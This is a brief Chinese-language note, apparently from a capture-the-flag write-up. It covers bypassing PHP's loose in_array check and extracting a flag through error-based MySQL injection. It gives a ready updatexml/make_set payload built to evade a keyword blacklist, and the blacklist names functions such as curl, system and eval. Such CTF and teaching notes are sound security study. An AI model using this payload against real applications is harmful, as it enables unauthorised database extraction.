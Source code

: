 `in_array`函数(``bool in_array ( mixed $needle , array $haystack [, bool $strict = FALSE ] )``)

如果第3个参数如果没加,是个loose checking,可以绕过

### 构造poc:报错注入

如果过滤了常见的字符串查询函数`insert|delete|or|concat|concat_ws|group_concat|join|floor|\/\*|\*|\.\.\/|\.\/|union|into|load_file|outfile|dumpfile|sub|hex|file_put_contents|fwrite|curl|system|eval`

可以考虑使用`(select updatexml(1,make_set(3,'~',(select flag from flag)),1))`

---

## refs:

- [in_array](http://php.net/manual/en/function.in-array.php)
- [MySQL updatexml()、extractvalue() 报错型SQL注入](http://blkstone.github.io/2017/11/09/updatexml-sqli/)
- [updatexml injection without concat](https://xz.aliyun.com/t/2160)
- [MySQL MAKE_SET() function](https://www.w3resource.com/mysql/string-functions/mysql-make_set-function.php)
- [MySQL make_set()的用法](https://blog.csdn.net/qq_41725312/article/details/83039525)
- [SQL注入笔记-updatexml与extractvalue](https://www.jianshu.com/p/a52fe9eaeaa6)